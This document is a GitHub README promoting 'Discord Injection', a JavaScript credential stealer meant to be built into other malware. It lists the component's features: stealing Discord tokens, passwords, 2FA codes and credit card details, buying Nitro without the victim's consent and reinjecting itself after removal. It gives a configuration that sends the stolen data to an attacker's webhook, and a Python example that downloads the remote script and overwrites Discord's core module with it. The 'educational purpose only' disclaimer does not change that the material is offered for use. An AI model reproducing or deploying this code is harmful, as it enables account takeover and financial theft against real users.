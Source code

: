 <h1 align="center">
  Discord Injection 💉
</h1>

<h2 align="center">
  Steal all critical info from victims!
</h2>

<p align="center">
  Discord Injection is a simple .js script that you can use for your own malware to inject into discord which comes with many features!
</p>

<p align="center"> 
  <kbd>
<img src="https://raw.githubusercontent.com/Rdimo/images/master/Discord-Injection/discord%20atom.png"></img>
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Rdimo/Discord-Injection?style=flat-square" </a>
  <img src="https://img.shields.io/github/last-commit/Rdimo/Discord-Injection?style=flat-square" </a>
  <img src="https://sonarcloud.io/api/project_badges/measure?project=Rdimo_Injection&metric=ncloc" </a>
  <img src="https://img.shields.io/github/stars/Rdimo/Discord-Injection?color=7F9DE0&label=Stars&style=flat-square" </a>
  <img src="https://img.shields.io/github/forks/Rdimo/Discord-Injection?color=7F9DE0&label=Forks&style=flat-square" </a>
</p>

##### ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ [🌌・Discord](https://cheataway.com) ⋮  [💉・Setting up the injection](https://github.com/Rdimo/Discord-Injection#configure-discord-injection) ⋮ [💻・License](https://github.com/Rdimo/Discord-Injection#license) ⋮ [📜・ChangeLog](https://github.com/Rdimo/Discord-Injection#changelog)

<h2 align="center">
  Discord-Injection was made by

  Love ❌ code ✅
</h2>

---

## :fire: Features

✔ Customizable \
✔ Obfuscated (not advanced but the best it can go cuz of string replacement) \
✔ If Injection got removed it injects again! \
✔ Works on both Windows and Darwin! \
✔ Auto buy nitro! (toggleable) \
✔ Pings on info stolen! (toggleable) \
✔ Discord 2FA Codes for accounts with 2FA enabled.  \
✔ Disables login thru QR code! \
✔ Grabs Token, Nitro status, Billing Status + more! \
✔ Grabs Email & Password for their account. (updates if they change it) \
✔ Grabs whole credit card (if they enter one while injection is in) \
✔ Notifies when paypal account has been added!

--- 

## 🚀・Configure Discord Injection!

You'll need [Git](https://git-scm.com) to start off!
```sh-session
git@2.17.1 or higher
```

### 1. From your command line, clone and configure discord-injection:

```bash
# Clone this repository
$ git clone https://github.com/rdimo/Discord-injection.git

```
Copy the raw url of the [injection](./injection.js) and then paste it in your code

[forking](https://github.com/Rdimo/Discord-injection/fork) this repo is also a viable way but make sure to go into the code and change the config to your preferences! ⇣⇣⇣

```javascript
const config = {
    auto_buy_nitro: true, //automatically buys nitro when the victim adds credit card or paypal account or tries to buy nitro themselves
    ping_on_run: false, //sends whatever value you have in ping_val when you get a run/login
    ping_val: '@everyone', //change to @here or <@ID> to ping specific user if you want, will only send if ping_on_run is true
    embed_name: 'Discord Injection', //name of the webhook thats gonna send the info
    embed_icon: 'https://raw.githubusercontent.com/Rdimo/images/master/Discord-Injection/discord atom.png'.replace(/ /g,'%20'), //icon for the webhook thats gonna send the info
    embed_color: 8363488, //color for the embed, needs to be hexadecimal (just copy a hex and then use https://www.binaryhexconverter.com/hex-to-decimal-converter to convert it)
    webhook: '%WEBHOOK%', //your discord webhook there obviously
    injection_url: 'https://raw.githubusercontent.com/Rdimo/Discord-Injection/master/injection.js', //injection url for when it reinjects

    ... //rest of the config you should NOT touch
};
```
> Don't quite understand how to set it up? [Click me!](https://github.com/Rdimo/Discord-Injection#want-to-use-it-but-dont-know-shit-about-coding)

## 🎈・Code example
Example of how you can implement this injection into your own malware
```py
import os
import re
import requests
webhook = 'https://discord.com/apwebhooks/123456789/abcdefghijklmnopqrstuvwxyz'

def inject():
    for _dir in os.listdir(os.getenv('localappdata')):
        if 'discord' in _dir.lower():
            for __dir in os.listdir(os.path.abspath(os.getenv('localappdata')+os.sep+_dir)):
                if re.match(r'app-(\d*\.\d*)*', __dir):
                    abspath = os.path.abspath(os.getenv('localappdata')+os.sep+_dir+os.sep+__dir) 
                    f = requests.get("https://raw.githubusercontent.com/Rdimo/Discord-Injection/master/injection.js").text.replace("%WEBHOOK%", webhook)
                    with open(abspath+'\\modules\\discord_desktop_core-2\\discord_desktop_core\\index.js', 'w', encoding="utf-8") as indexFile:
                        indexFile.write(f)
                    os.startfile(abspath+os.sep+_dir+'.exe')

if __name__ == "__main__":
    inject()
```

## 👴・Want to use it but don't know shit about coding?
No worries, [Hazard-Token-Grabber-V2](https://github.com/Rdimo/Hazard-Token-Grabber-V2) is a stealer that uses this injection + steals more!

## 🤝・Contributing

Any ideas on how to improve the injection? Or just think you got something you want to see being added? [Open a new issue](https://github.com/rdimo/Discord-injection/issues)!

Found a bug? please please please [Open a new issue](https://github.com/rdimo/Discord-injection/issues) and tell me about it so I can fix it asap

## 🎉・Upcoming/Todo
- Grab ip, name etc...
- Fix bugs
- More settings

## :seedling:・Inspiration/Credits
Discord-Injection is heavily inspired by [stanleys](https://github.com/Stanley-GF) injection but has been upgraded quite alot since \
A few snippets are from his injection so huge cred to stan

- [his injection](https://github.com/Stanley-GF/Arizona/blob/main/src/injection/injection-clean.js)

## 📄・License 

This project is licensed under the GNU General Public License v3.0 License - see the [LICENSE.md](./LICENSE) file for details

・Educational purpose only and all your consequences caused by you actions is your responsibility 

・Selling this **Free** injection is forbidden

・If you make a copy of this/or fork it, it **must** be open-source and have credits linking to this repo

## 💭・ChangeLog
```diff

v0.0.4 ⋮ 2022-03-31
+ Cleanup

v0.0.3 ⋮ 2022-03-31
+ Fixed Typo

v0.0.2 ⋮ 2022-03-30
+ Added new seperate function that sends out when a nitro code has been purchased
+ Fixed 2fa code grabber
+ Fixed auto nitro buyer

v0.0.1 ⋮ 2022-03-28
+ Added BetterDiscord support
+ Added dead code into obfuscation to protect even more
- Re-added status code checker since I Accidently removed it
```
